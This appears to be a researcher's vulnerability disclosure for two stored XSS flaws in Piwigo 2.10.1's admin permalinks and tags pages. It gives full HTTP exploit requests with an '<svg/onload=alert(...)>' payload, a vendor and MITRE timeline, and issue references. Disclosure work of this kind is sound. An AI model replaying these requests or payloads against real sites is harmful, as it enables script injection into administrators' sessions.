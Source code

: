 # This is what I achived when research on [Piwigo 2.10.1](https://piwigo.org/)
## Stored XSS in /admin.php?page=permalinks
### Exploit request

```
POST /piwigo/piwigo/admin.php?page=permalinks HTTP/1.1
Host: 192.168.10.138
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Origin: http://192.168.10.138
Connection: close
Referer: http://192.168.10.138/piwigo/piwigo/admin.php?page=permalinks
Cookie: pwg_id=ragm92nc6a3rr532fi0h9h6f21
Upgrade-Insecure-Requests: 1

cat_id=3&permalink=%3Csvg%2Fonload%3Dalert%28document.domain%29%3E&save=on&set_permalink=Submit&pwg_token=2048f9dd482aaca003e193045fd4f763
```

### PoC
![](https://github.com/matuhn/Research/raw/master/Piwigo/1.png)
![](https://github.com/matuhn/Research/raw/master/Piwigo/2.png)
# REPORT TIMELINE
# 02/12/2020: Discovered the vulnerability
# 02/12/2020: Contact vendor to confirm the vulnerability
# 02/17/2020: Contact MITRE because vendor is unresponsive


## Stored XSS in /admin.php?page=tags
### Exploit request

```
POST /piwigo/piwigo/admin.php?page=tags HTTP/1.1
Host: 192.168.10.138
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Origin: http://192.168.10.138
Connection: close
Referer: http://192.168.10.138/piwigo/piwigo/admin.php?page=tags
Cookie: pwg_id=kikufgh78rp553s266q6r0sj62
Upgrade-Insecure-Requests: 1

pwg_token=c8dea9237930ccb48c6d1a4e5020b32b&add_tag=%3Csvg%2Fonload%3Dalert%28document.domain%29%3E&add=Submit
```

### PoC
![](https://github.com/matuhn/Research/raw/master/Piwigo/3.png)
# REPORT TIMELINE
# 02/12/2020: Discovered the vulnerability
# 02/12/2020: Contact vendor to confirm the vulnerability
# 02/17/2020: Contact MITRE because vendor is unresponsive

### References
# https://github.com/Piwigo/Piwigo/issues/1158
# https://github.com/Piwigo/Piwigo/issues/1157
